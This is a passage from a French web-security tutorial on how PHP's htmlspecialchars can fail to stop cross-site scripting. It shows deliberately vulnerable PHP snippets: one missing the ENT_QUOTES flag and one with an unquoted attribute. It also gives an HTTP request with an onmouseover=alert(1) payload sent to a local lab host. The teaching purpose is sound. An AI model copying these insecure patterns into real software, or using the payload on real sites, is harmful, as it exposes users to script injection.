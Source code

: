 ![](<../../../../.gitbook/assets/image (10) (2) (1).png>)

Cela provient du fait que le développeur n'a pas renseigné tous les paramètres nécessaires à la fonction. La fonction, par défaut, ne transforme pas le caractère `'` si le drapeau `ENT_QUOTES` n'est pas renseigné :&#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><?php  echo "<input type='text' name='safeHTML' value='" . htmlspecialchars($_GET["param"]) . "'>"; ?></p>
  </body>
</html>
```

Grâce à cette modification, l'application semble être maintenant protégée :&#x20;

![](<../../../../.gitbook/assets/image (42).png>)

#### Cas n°3

Cette fois, le développeur attribue bien la bonne valeur de drapeau a la fonction d'assainissement, mais n'entoure pas les valeurs des attributs HTML avec les caractères `"` ou `'` :&#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><?php  echo '<input type=text name=safeHTML value=' . htmlspecialchars($_GET["param"], ENT_QUOTES) . '>'; ?></p>
  </body>
</html>
```

```http
GET /minipoc/htmlspecialchars/?param=whatever%20onmouseover=alert(1) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
